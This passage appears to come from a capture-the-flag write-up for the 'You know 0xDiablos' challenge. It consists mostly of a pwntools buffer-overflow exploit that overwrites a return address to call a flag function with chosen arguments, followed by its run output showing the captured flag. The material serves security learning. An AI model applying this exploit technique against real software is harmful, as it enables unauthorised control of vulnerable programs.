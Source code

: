   > We need to wait some time for the flag to pop up. --> Never came back.

  ```python
  # alternative payload
  from pwn import *

  context.update(arch="i386", os="linux")

  elf = ELF("./vuln")

  # offset to reach right before return address's location
  offset = b"A" * 188

  # craft exploit: offset + flag() + padding + parameter 1 + parameter 2
  exploit = offset + p32(elf.symbols['flag'], endian="little") + p32(0x90909090) + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")

  r = remote("159.65.24.125", 30760)
  #r = elf.process()
  r.sendlineafter(":", exploit)
  r.interactive()
  ```

  ```shell
  # execute payload script
  python3 payload.py
  [*] Checking for new versions of pwntools
      To disable this functionality, set the contents of /home/kali/.cache/.pwntools-cache-3.11/update to 'never' (old way).
      Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
          [update]
          interval=never
  [*] You have the latest version of Pwntools (4.11.1)
  [*] '/home/kali/htb/you_know_0xdiablos/vuln'
      Arch:     i386-32-little
      RELRO:    Partial RELRO
      Stack:    No canary found
      NX:       NX unknown - GNU_STACK missing
      PIE:      No PIE (0x8048000)
      Stack:    Executable
      RWX:      Has RWX segments
  [+] Opening connection to 159.65.24.125 on port 30760: Done
  /home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py:841: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
    res = self.recvuntil(delim, timeout=timeout)
  [*] Switching to interactive mode

  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc02\x9\x90\x90\x90\HTB{0ur_Buff3r_1s_not_healthy}[*] Got EOF while reading in interactive
  ```

![[0xdiablos_pwed.png]]

<figure>
    <img src="0xdiablos_pwned.png"
    alt="Machine pwned" >
</figure>
